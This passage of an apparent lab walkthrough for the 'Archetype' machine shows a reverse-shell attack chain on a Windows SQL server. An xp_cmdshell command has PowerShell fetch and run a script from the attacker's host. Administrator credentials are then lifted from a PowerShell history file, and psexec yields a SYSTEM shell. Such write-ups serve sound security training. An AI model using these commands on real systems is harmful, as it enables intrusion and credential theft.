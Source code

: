 After standing up a netcat listener on port 443, we can use `ufw` to allow the call backs on port 80 and 443 to our machine.

```bash
unknown@kali:/data/tmp$ sudo ufw allow from 10.10.10.27 proto tcp to any port 80,443
unknown@kali:/data/tmp$ sudo rlwrap nc -nlvp 443
listening on [any] 443 ...
```

We can now issue the command to download and execute the reverse shell through `xp_cmdshell` (Once again, adapt with your IP address).

```sh
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"
```

A shell is received as sql_svc, and we can get the user.txt on their desktop.

~~~
# whoami
archetype\sql_svc

# more \users\sql_svc\desktop\user.txt
3e7b102e78218e935bf3f4951fec21a3
~~~

User flag: `3e7b102e78218e935bf3f4951fec21a3`

# Privilege Escalation

As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

~~~
# type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
~~~

This reveals that the `backups` drive has been mapped using the local administrator credentials. We can use Impacket's `psexec.py` to gain a privileged shell.

~~~
unknown@kali:/data$ psexec.py administrator@10.10.10.27
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file HbnjRkzA.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service VXMW on 10.10.10.27.....
[*] Starting service VXMW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
~~~
